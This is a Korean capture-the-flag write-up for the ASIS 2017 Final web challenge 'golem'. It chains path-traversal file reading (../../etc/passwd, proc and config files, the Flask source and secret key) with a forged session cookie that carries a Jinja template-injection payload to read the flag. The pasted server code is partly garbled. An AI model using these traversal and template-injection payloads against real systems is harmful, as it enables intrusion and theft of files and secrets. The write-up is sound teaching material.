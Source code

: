 # [WEB] ASIS 2017 FINAL - golem

# Description
Golem is an animated anthropomorphic being that is magically created entirely from inanimate matter, but Golem is stupid!

# Analysis
golem의 이름을 입력하면 특성 게시물을 읽을거 같은 URL로 변경된다.
`https://golem.asisctf.com/article?name=`
name값을 ../../../../../etc/passwd를 입력해보니 LFI가 발생하였다.
이용 이용하여 무언가를 하는 문제인가보다.

# Exploit
1. LFI
2. Template injection using JWT


## 1. LFI

`https://golem.asisctf.com/article?name=[path]`
path부분에 파일의 상대 경로를 통해 LFI가 가능하다.

/proc/self/cmdline을 읽으면 
```
/usr/bin/uwsgi--ini/usr/share/uwsgi/conf/default.ini--ini/etc/uwsgi/apps-enabled/golem_proj.ini--daemonize/var/log/uwsgi/app/golem_proj.log
```
같이 명령이 실행된 것을 알 수 있다.

/etc/uwsgi/apps-enabled/golem_proj.ini을 읽어보자.
```
#/etc/uwsgi/apps-enabled/golem_proj.ini
[uwsgi]
socket		= 127.0.0.1:9090
plugin		= python
wsgi-file	= /opt/serverPython/golem/server.py
chdir           = /opt/serverPython/golem
process		= 3
callable	= app
```
`/opt/serverPython/golem/server.py`가 서버 파일이므로 읽어보자.
```python
#/opt/serverPython/golem/server.py
#!/usr/bin/python
import os from flask
import ( Flask, render_template, request, url_for, redirect, session, render_template_string ) from flask.ext.session
import Session
app = Flask(__name__)
execfile('flag.py')
execfile('key.py')
FLAG = flag
app.secret_key = key
@app.route("/golem", methods=["GET", "POST"])
def golem():
	if request.method != "POST":
		return redirect(url_for("index"))

		golem = request.form.get("golem") or None
		if golem is not None:
			golem = golem.replace(".", "").replace("_", "").replace("{","").replace("}","")
		if "golem" not in session or session['golem'] is None:
			session['golem'] = golem
			template = None
		if session['golem'] is not None:
			template = '''{%% extends "layout.html" %%} {%% block body %%} <h1>Golem Name</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div> {%% endblock %%} ''' % session['golem']

			print
			session['golem'] = None

		return render_template_string(template)

@app.route("/", methods=["GET"])
def index():
	return render_template("main.html")

@app.route('/article', methods=['GET'])
def article():
	error = 0
	if 'name' in request.args:
		page = request.args.get('name')
	else:
		page = 'article'
	if page.find('flag')>=0:
		page = 'notallowed.txt'
	try:
		template = open('/home/golem/articles/{}'.format(page)).read()
	except Exception as e:
		template = e
	return render_template('article.html', template=template)

if __name__ == "__main__":
	app.run(host='0.0.0.0', debug=False)
```
flask 기반의 웹 서버이다.
flag.py는 이 취약점을 이용해 읽을 수 없다.(article함수 참고)
여기서 golem()함수를 보면 session에 golem이 존재하면 request로 받는 값으로 덮어쓰지 않고 session값으로 처리를 한다.
session은 JWT을 사용하고 있다.
또한 render_temaplte_string을 사용하므로 template injection이 가능하다.
참고로 request 값으로 template injection을 하면 필터링이 적용되므로 불가능하다.


## 2. Template injection using JWT

session값을 보면 `eyJnb2xlbSI6bnVsbH0.DJUDyQ.hH1zXB8kKo1cdHfb57xT6jnrimA`이다.
이는 JWT Token으로써 decode하면 `{"golem":null}`의 값을 가지고 있다.

위의 LFI를 이용해 app.secret_key를 얻을 수 있다.
```python
/opt/serverPython/golem/key.py
key = '7h15_5h0uld_b3_r34lly_53cur3d'
```
secret_key를 이용하여 template injection을 수행하면 flag를 얻을 수 있다.

> Query : '{"golem":"{{[].__class__.__base__.__subclasses__()\[40\](\"/opt/serverPython/golem/flag.py\").read()}}"}'
> 
> JWT : .eJyrVkrPz0nNVbKqVlJIUrJSSjUuSYoINk2LMPIr
jozwq4owtCiNMLTMBLJzoOyqlHCvrCR3t6pkozCQfL53WLGBr5tBvme
mZVmyR2AZULwyJTesMtQjxyDR3bLUxyilLMk9rMTHKKo4Mjy5NNkjO9
M72LQyKtwt29s5xzIt0NZWqbYWAFZnLfU.DJVHlQ.2PwHmlFVhfpcB6
Z0Iya8pAYsAm8


**ASIS{I_l0v3_SerV3r_S1d3_T3mplate_1nj3ct1on!!}**
